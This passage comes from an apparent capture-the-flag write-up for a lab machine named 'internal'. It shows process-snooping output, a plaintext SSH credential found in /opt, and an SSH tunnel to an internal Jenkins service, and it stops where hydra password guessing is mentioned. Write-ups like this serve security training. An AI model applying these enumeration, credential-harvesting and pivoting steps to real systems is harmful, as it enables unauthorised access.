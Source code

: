 
### pspy64
Launching pspy64 we can see that maybe we're in a docker
  2020/11/24 16:14:36 CMD: UID=1000 PID=1500   | java -Duser.home=/var/jenkins_home -Djenkins.model.Jenkins.slaveAgentPort=50000 -jar /usr/share/jenkins/jenkins.war                                                                                                                                                  
  2020/11/24 16:14:36 CMD: UID=0    PID=15     | 
  2020/11/24 16:14:36 CMD: UID=1000 PID=1465   | /sbin/tini -- /usr/local/bin/jenkins.sh 
  2020/11/24 16:14:36 CMD: UID=0    PID=1426   | containerd-shim -namespace moby -workdir /var/lib/containerd/io.containerd.runtime.v1.linux/moby/7b979a7af7785217d1c5a58e7296fb7aaed912c61181af6d8467c062151e7fb2 -address /run/containerd/containerd.sock -containerd-binary /usr/bin/containerd -runtime-root /var/run/docker/runtime-runc                                                                                                                                   
  2020/11/24 16:14:36 CMD: UID=0    PID=1413   | /usr/bin/docker-proxy -proto tcp -host-ip 127.0.0.1 -host-port 8080 -container-ip 172.17.0.2 -container-port 8080                    


[+] .sh files in path
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#script-binaries-in-path                                                                   
/usr/bin/gettext.sh    


After more research, we found some interesting things in the /opt folder



$ ls -la /opt
  total 16
  drwxr-xr-x  3 root root 4096 Aug  3 03:01 .
  drwxr-xr-x 24 root root 4096 Aug  3 01:31 ..
  drwx--x--x  4 root root 4096 Aug  3 03:01 containerd
  -rw-r--r--  1 root root  138 Aug  3 02:46 wp-save.txt
$ cat /opt/wp-save.txt
  Bill,

  Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

  aubreanna:bubb13guM!@#123

  Got SSH!

## Getting root

After getting the user flag, we can see another file in our home:
  cat jenkins.txt 
  Internal Jenkins service is running on 172.17.0.2:8080
  aubreanna@internal:~$ curl  172.17.0.2:8080
  <html><head><meta http-equiv='refresh' content='1;url=/login?from=%2F'/><script>window.location.replace('/login?from=%2F');</script></head><body style='background-color:white; color:white;'>


  Authentication required
  

  </body></html>      

So let's run an SSH Tunnel:
  ssh -L 8080:172.17.0.2:8080 aubreanna@internal.thm
And now, in localhost:8080 (take care with BurpSuite default port) we've got a Jenkins site. Testing passwords with hydra can give us the key:
